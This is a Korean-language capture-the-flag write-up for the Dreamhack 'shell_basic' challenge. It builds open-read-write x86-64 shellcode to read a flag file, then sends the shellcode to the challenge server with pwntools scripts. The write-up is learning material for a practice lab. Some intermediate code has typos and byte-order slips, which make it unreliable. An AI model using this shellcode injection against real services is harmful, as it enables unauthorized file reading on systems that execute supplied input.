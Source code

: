 ## 📍shell_basic

```
입력한 셸코드를 실행하는 프로그램이 서비스로 등록되어 작동하고 있습니다.

`main` 함수가 아닌 다른 함수들은 execve, execveat 시스템 콜을 사용하지 못하도록 하며, 풀이와 관련이 없는 함수입니다.

flag 파일의 위치와 이름은 `/home/shell_basic/flag_name_is_loooooong`입니다.  
감 잡기 어려우신 분들은 아래 코드를 가지고 먼저 연습해보세요!
```

```
$ cat write.asm
section .text
global _start
_start:
    ;/* write(fd=1, buf='hello', n=48) */
    ;/* push 'hello\x00' */
    mov rax, 0x0a6f6c6c6568
    push rax
    mov rsi, rsp
    push 1
    pop rdi
    push 0x6
    pop rdx
    ;/* call write() */
    push 1
    pop rax
    syscall
$ nasm -f elf64 write.asm
$ objcopy --dump-section .text=write.bin write.o
$ xxd write.bin
00000000: 48b8 6865 6c6c 6f0a 0000 5048 89e6 6a01  H.hello...PH..j.
00000010: 5f6a 065a 6a01 580f 05                   _j.Zj.X..
$ cat write.bin | ./shell_basic
shellcode: hello
[1]    1592460 done                cat write.bin |
       1592461 segmentation fault  ./shell_basic
$
```


#### 해결

우선 execve 시스템콜을 막았다고 하니 orw 셸코드를 사용해보자.

위 파일 경로 `home/shell_basic/flag_name_is_loooooong`을 16진수 리틀 엔디안으로 변환하면 다음과 같다.
![](Attachments/{0547A58F-151A-423A-89D6-7557434DB5FF}.png)
```
0x676e6f6f6f6f6f6f6c5f73695f656d616e5f67616c662f63697361625f6c6c6568732f656d6f682f
```

위에서 만든 orw.c 파일에 그대로 파일 경로만 붙여넣기해봤다.
(리눅스에서 실행할 수 있도록 c언어로 된 스켈레톤 코드에 셸코드를 탑재하는 것)
```c
// File name: orw.c
// Compile: gcc -o orw orw.c -masm=intel

__asm__(
        ".global run_sh\n"
        "run_sh:\n"

        "push 0x67\n"
        "mov rax, 0x6e6f6f6f6f6f6f6c5f73695f656d616e5f67616c662f63697361625f6c6c6568732f656d6f682f\n"
        "push rax\n"
        "mov rdi, rsp   # rdi = /tmp/flag'\n"
        "xor rsi, rsi   # rsi = 0 ; RD_ONLY\n"
        "xor rdx, rdx   # rdx = 0\n"
        "mov rax, 2     # rax = 2 ; syscall_open\n"
        "syscall        # open('/home/shell_basic/flag_name_is_loooooong', RD_ONLY, NULL)\n"
        "\n"
        "mov rdi, rax   # rdi = fd\n"
        "mov rsi, rsp\n"
        "sub rsi, 0x30  # rsi = rsp-0x30 # buf\n"
        "mov rdx, 0x30  # rdx = 0x30     # len\n"
        "mov rax, 0x0   # rax = 0        # syscall_read\n"
        "syscall        # read(fd, buf, 0x30)\n"
        "\n"
        "mov rdi, 1    # rdi = 1 # fd = stdout\n"
        "mov rax, 0x1  # rax = 1 # syscall_write\n"
        "syscall       # write(fd, buf, 0x30)\n"
        "\n"
        "xor rdi, rdi   # rdi = 0\n"
        "mov rax, 0x3c  # rax = sys_exit\n"
        "syscall        # exit(0)");

void run_sh();

int main() { run_sh(); }
```

너무 길어서 그런지 에러가 났다.
![](Attachments/{F112AC67-4468-4629-A03B-7E61CEB00CE7}.png)

스택에는 8바이트 단위로만 값을 push할 수 있으므로, 위 문자열을 8바이트씩 쪼개준다.
```
0x676e6f6f6f6f6f6f
0x6c5f73695f656d61
0x6e5f67616c662f63
0x697361625f6c6c65
0x68732f656d6f682f
```

다시 push해서 스택에 차례대로 넣었다.
```c
"move rax, 0x676e6f6f6f6f6f6f\n"
"push rax\n"
"move rax, 0x6c5f73695f656d61\n"
"push rax\n"
"move rax, 0x6e5f67616c662f63\n"
"push rax\n"
"move rax, 0x697361625f6c6c65\n"
"push rax\n"
"move rax, 0x68732f656d6f682f\n"
"push rax\n"
```

#### 셸코드
```c
// File name: orw.c
// Compile: gcc -o orw orw.c -masm=intel

__asm__(
        ".global run_sh\n"
        "run_sh:\n"
        
		"push 0x0\n"
        "mov rax, 0x676e6f6f6f6f6f6f\n"
		"push rax\n"
		"mov rax, 0x6c5f73695f656d61\n"
		"push rax\n"
		"mov rax, 0x6e5f67616c662f63\n"
		"push rax\n"
		"mov rax, 0x697361625f6c6c65\n"
		"push rax\n"
		"mov rax, 0x68732f656d6f682f\n"
		"push rax\n"
        "mov rdi, rsp   # rdi = /home/shell_basic/flag_name_is_loooooong'\n"
        "xor rsi, rsi   # rsi = 0 ; RD_ONLY\n"
        "xor rdx, rdx   # rdx = 0\n"
        "mov rax, 2     # rax = 2 ; syscall_open\n"
        "syscall        # open('/home/shell_basic/flag_name_is_loooooong', RD_ONLY, NULL)\n"
        "\n"
        "mov rdi, rax   # rdi = fd\n"
        "mov rsi, rsp\n"
        "sub rsi, 0x30  # rsi = rsp-0x30 # buf\n"
        "mov rdx, 0x30  # rdx = 0x30     # len\n"
        "mov rax, 0x0   # rax = 0        # syscall_read\n"
        "syscall        # read(fd, buf, 0x30)\n"
        "\n"
        "mov rdi, 1    # rdi = 1 # fd = stdout\n"
        "mov rax, 0x1  # rax = 1 # syscall_write\n"
        "syscall       # write(fd, buf, 0x30)\n"
        "\n"
        "xor rdi, rdi   # rdi = 0\n"
        "mov rax, 0x3c  # rax = sys_exit\n"
        "syscall        # exit(0)");

void run_sh();

int main() { run_sh(); }
```

![](Attachments/{281FB2EA-CFE7-4365-8B7C-7214D4CA793F}.png)

`-d`는 디스어셈블 옵션이다.
여기서 orw에 필요한 셸코드만 추출한다.

![](Attachments/{40832031-ABAA-4B56-B6B3-F69B5291DEBE}.png)

```
\x6a\x00\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\xc7\xc0\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\x48\xc7\xc2\x30\x00\x00\x00\x48\xc7\xc0\x00\x00\x00\x00\x0f\x05\x48\xc7\xc7\x01\x00\x00\x00\x48\xc7\xc0\x01\x00\x00\x00\x0f\x05\x48\x31\xff\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05
```

원래 이걸 통째로 shellcode: 에 입력하려고 했는데 그게 아닌 것 같다...
![](Attachments/{8D2E4A2E-B184-4418-BC57-66FEB19E781B}.png)

pwntools를 사용해서 파이썬 스크립트를 작성해봤다.
```python
from pwn import *

context.arch = "amd64"
p = remote("host3.dreamhack.games", 14009)

shellcode = b"\x6a\x00\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\xc7\xc0\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\x48\xc7\xc2\x30\x00\x00\x00\x48\xc7\xc0\x00\x00\x00\x00\x0f\x05\x48\xc7\xc7\x01\x00\x00\x00\x48\xc7\xc0\x01\x00\x00\x00\x0f\x05\x48\x31\xff\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05"
p.sendafter(b": ", shellcode)
p.interactive()
```

파일을 실행해주면 플래그가 반환된다.

![](Attachments/{0877EAEA-773E-47BB-8DED-E6E0440552F4}.png)


## 📍shell_basic 2

일단 orw 셸 코드를 작성해야 한다.

```c
//orw
int fd = open("/home/shell_basic/flag_name_is_loooooong", RD_ONLY, NULL)
read(fd, buf, 0x30);
write(1, buf, 0x30);
```

위 코드처럼 open-read-write를 하면 된다.
셸 코드를 작성해주는 pwntools의 `shellcraft()` 함수를 사용해 보자.

```python
from pwn import *

p = remote("host3.dreamhack.games", 10178)

context.arch = "amd64"
path = "/home/shell_basic/flag_name_is_loooooong"

shellcode = shellcraft.open(path)
# open 함수 결과는 rax 레지스터에 저장된다고 한다. fd = rax
shellcode += shellcraft.read('rax', 'rsp', 0x30)   # read(fd, buf, 0x30)
shellcode += shellcraft.write(1, 'rsp', 0x30)      # write(1, buf, 0x30)
shellcode = asm(shellcode)   # shellcode를 기계어로 변환하여 대입

payload = shellcode
p.sendlineafter("shellcode: ", payload)
print(p.recv(0x30))
```

![](Attachments/{0A93E382-E201-49BE-86FA-C61D122A1C72}.png)

성공 🚩